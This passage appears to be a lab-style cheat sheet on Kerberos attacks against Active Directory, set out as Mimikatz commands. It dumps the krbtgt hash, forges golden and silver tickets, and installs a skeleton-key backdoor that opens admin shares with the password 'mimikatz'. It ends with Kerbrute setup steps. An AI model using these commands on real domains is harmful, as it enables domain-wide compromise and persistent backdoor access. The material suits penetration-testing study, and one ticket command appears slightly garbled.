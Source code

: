     lsadump::lsa /inject /name:krbtgt

### Create a golden/silver ticket

Create a golden ticket to create a silver ticket (put a service NTLM hash into <krbtgt>, the sid of the service 
account into <sid>, and set the <id> to 1103:

    Kerberos::golden /user:<username> /domain:controller.local /sid:<sid> /krbtgt:<krbtgt> /id<id>:

The Administrator and sqlservice hashes can be used to create silver tickets.

### Use the ticket to access other machines

    mimikatz # misc::cmd

Access machines. It depends on the privileges of the user the ticket was taken from. With a ticket from krbtgt,
you have access to the ENTIRE network, hence the name golden ticket.

## Kerberos backdoors

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Install the skeleton key:

    mimikatz # misc::skeleton

Access the forest (The share will now be accessible without the need for the Administrators 
password):

    net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

## Tools

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)